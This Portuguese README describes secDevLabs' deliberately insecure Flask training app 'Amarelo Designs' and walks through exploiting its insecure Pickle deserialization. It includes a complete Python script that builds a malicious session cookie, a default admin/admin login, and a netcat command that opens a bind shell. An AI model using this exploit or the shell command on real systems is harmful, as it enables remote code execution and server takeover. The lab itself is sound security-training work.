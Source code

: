# Amarelo Designs

<p align="center">
    <img src="images/Amarelo-Designs.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Esta é uma aplicação web simples construída com Flask que contém um exemplo de vulnerabilidade de falha de integridade de software e dados e, seu principal objetivo é descrever como um usuário malicioso poderia explorar uma vulnerabilidade, instalada intencionalmente no Amarelo Designs do secDevLabs, para obter dados remotos cegos execução do código. 

## Index

- [Amarelo Designs](#amarelo-designs)
  - [Index](#index)
  - [O que é falha de integridade de software e dados?](#o-que-é-falha-de-integridade-de-software-e-dados)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 🎨](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é falha de integridade de software e dados?

A serialização é o processo de tradução de estruturas de dados ou estado de objeto, em um formato que pode ser armazenado ou transmitido e reconstruído posteriormente. A desserialização insegura geralmente leva à execução remota de código. Mesmo que as falhas de desserialização não resultem em execução remota de código, elas podem ser usadas para realizar ataques, incluindo ataques de repetição, ataques de injeção e ataques de escalação de privilégios. 

O objetivo principal deste aplicativo é discutir como as vulnerabilidades **Software and Data Integrity Failure** podem ser exploradas e encorajar os desenvolvedores a enviar solicitações pull do secDevLabs sobre como mitigar essas falhas. 

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a8/amarelo-designs
```

```sh
make install
```

Depois é só visitar [localhost:10008][app] ! 😆

## Conheça o app 🎨

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Dê uma olhada no portfólio

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma função de desserialização insegura permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP 10008, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Fazendo uso da ferramenta [Dirb] para pesquisar páginas da web e diretórios comuns [wordlist], conseguimos encontrar `/user`, `/admin` e `/console`, como mostra a figura abaixo: (Se você deseja instalar o Dirb para Mac OS, certifique-se de clicar [aqui][4]) 

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

Ao ser acessada, a página `/admin` expõe uma tela de autenticação, conforme ilustrado na imagem: 

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

Um teste rápido utilizando `admin` como credenciais para os campos `Username` e `Password`, nos dá acesso a um Admin Dashboard, conforme mostrado abaixo:

<img src="images/attack4.png" align="center"/>

Agora, usando o [Burp Suite] como proxy para interceptar a solicitação de login, podemos ver que o aplicativo retorna um cookie de sessão, `sessionId`, conforme ilustrado abaixo:

<img src="images/attack5.png" align="center"/>

Após decodificar o cookie, que está em base64, foi encontrada a seguinte estrutura:

<img src="images/attack6.png" align="center"/>

A estrutura encontrada é muito semelhante às criadas com a função [Pickle]. Podemos ter certeza disso dando uma olhada no [código][3] do aplicativo. A dica já está confirmada, o app usa Pickle, como podemos ver na imagem abaixo:

<img src="images/attack7.png" align="center"/>

Se um invasor souber que o aplicativo usa `Pickle` como método de serialização, ele poderá criar um cookie malicioso para aproveitá-lo e executar o código remotamente. Um exemplo de exploit (serializaPickle.py) no Python 3 que poderia produzir esse cookie poderia ser:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

Para ter certeza de que o aplicativo é explorável, enviaremos um comando de suspensão para que o aplicativo não responda por 10 segundos. Se o aplicativo demorar 10 segundos para retornar nossa solicitação, então está confirmado, o aplicativo é explorável. Como podemos ver na imagem abaixo, o aplicativo demora um pouco para retornar nossa solicitação, confirmando assim que é explorável e confirmando a execução remota do código:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

Para mostrar como um invasor pode ter acesso ao servidor por meio de um RCE, usaremos o código descrito na imagem abaixo para criar um shell de ligação na porta 9051 do servidor.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

O código usado acima cria um shell de ligação na porta 9051 do servidor, que está ouvindo as conexões de entrada. Depois disso, o invasor pode se conectar a essa porta usando um simples comando [netcat], conforme mostrado abaixo: 

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute código remotamente por meio de uma vulnerabilidade de serialização

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
